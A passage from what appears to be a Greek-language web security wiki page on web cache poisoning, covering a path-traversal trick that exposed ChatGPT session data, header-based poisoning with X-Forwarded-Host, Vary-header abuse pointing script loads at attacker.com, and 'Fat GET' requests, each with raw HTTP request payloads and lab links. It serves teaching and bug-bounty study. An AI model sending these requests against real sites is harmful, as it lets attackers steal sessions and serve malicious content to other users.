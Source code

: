 ### Δηλητηρίαση cache με διαδρομή traversal για κλοπή API key <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

[**Αυτή η αναφορά εξηγεί**](https://nokline.github.io/bugbounty/2024/02/04/ChatGPT-ATO.html) πώς ήταν δυνατό να κλέψετε ένα OpenAI API key με μια διεύθυνση URL όπως `https://chat.openai.com/share/%2F..%2Fapi/auth/session?cachebuster=123` επειδή οτιδήποτε ταιριάζει με `/share/*` θα αποθηκευτεί στην cache χωρίς την κανονικοποίηση της διεύθυνσης URL από το Cloudflare, κάτι που έγινε όταν η αίτηση έφτασε στον web server.

Αυτό εξηγείται επίσης καλύτερα σε:

{{#ref}}
cache-poisoning-via-url-discrepancies.md
{{#endref}}

### Χρήση πολλαπλών κεφαλίδων για εκμετάλλευση ευπαθειών δηλητηρίασης cache <a href="#using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities" id="using-multiple-headers-to-exploit-web-cache-poisoning-vulnerabilities"></a>

Μερικές φορές θα χρειαστεί να **εκμεταλλευτείτε αρκετές μη κλειδωμένες εισόδους** για να μπορέσετε να κακοποιήσετε μια cache. Για παράδειγμα, μπορεί να βρείτε μια **Ανοιχτή ανακατεύθυνση** αν ορίσετε το `X-Forwarded-Host` σε ένα τομέα που ελέγχετε και το `X-Forwarded-Scheme` σε `http`. **Αν** ο **server** **προωθεί** όλα τα **HTTP** αιτήματα **σε HTTPS** και χρησιμοποιεί την κεφαλίδα `X-Forwarded-Scheme` ως το όνομα τομέα για την ανακατεύθυνση. Μπορείτε να ελέγξετε πού δείχνει η σελίδα μέσω της ανακατεύθυνσης.
```html
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```
### Εκμετάλλευση με περιορισμένο `Vary` header

Αν διαπιστώσετε ότι το **`X-Host`** header χρησιμοποιείται ως **όνομα τομέα για τη φόρτωση ενός JS πόρου** αλλά το **`Vary`** header στην απάντηση υποδεικνύει **`User-Agent`**. Τότε, πρέπει να βρείτε έναν τρόπο να εξάγετε το User-Agent του θύματος και να δηλητηριάσετε την cache χρησιμοποιώντας αυτό το user agent:
```html
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```
### Fat Get

Στείλτε ένα αίτημα GET με το αίτημα στο URL και στο σώμα. Αν ο διακομιστής ιστού χρησιμοποιεί αυτό από το σώμα αλλά ο διακομιστής cache αποθηκεύει αυτό από το URL, οποιοσδήποτε έχει πρόσβαση σε αυτό το URL θα χρησιμοποιήσει στην πραγματικότητα την παράμετρο από το σώμα. Όπως η ευπάθεια που βρήκε ο James Kettle στον ιστότοπο του Github:
```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```
There it a portswigger lab about this: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)
